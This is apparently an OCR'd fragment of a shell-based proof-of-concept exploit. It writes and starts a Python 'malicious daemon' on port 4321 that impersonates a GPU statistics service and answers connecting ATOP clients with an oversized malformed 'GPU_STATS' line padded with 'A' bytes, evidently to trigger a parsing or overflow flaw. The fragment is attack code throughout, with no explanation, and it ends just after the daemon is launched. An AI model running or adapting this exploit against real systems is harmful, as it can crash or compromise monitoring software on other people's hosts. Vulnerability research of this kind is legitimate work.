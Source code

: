     # Start malicious daemon
    cat > malicious_daemon.py << 'EOF'
import socket
import threading
import time

def handle_connection(client_socket, addr):
    print(f"[+] ATOP connected from {addr}")
    try:
        request = client_socket.recv(1024)
        print(f"[+] Request: {request}")
        
        # Send malicious response
        malicious_response = b"GPU_STATS:1:MALICIOUS:" + b"A" * 1000 + b"\n"
        client_socket.send(malicious_response)
        print("[+] Sent malicious GPU data")
        
        time.sleep(2)
        client_socket.close()
        
    except Exception as e:
        print(f"[-] Error: {e}")

def start_daemon():
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    server.bind(('0.0.0.0', 4321))
    server.listen(5)
    
    print("[+] Malicious GPU daemon started on port 4321")
    
    try:
        while True:
            client, addr = server.accept()
            thread = threading.Thread(target=handle_connection, args=(client, addr))
            thread.start()
    except KeyboardInterrupt:
        print("\n[+] Daemon stopped")
    finally:
        server.close()

if __name__ == "__main__":
    start_daemon()
EOF
    
    # Start daemon in background
    python3 malicious_daemon.py &
    DAEMON_PID=$!
    
    sleep 2
    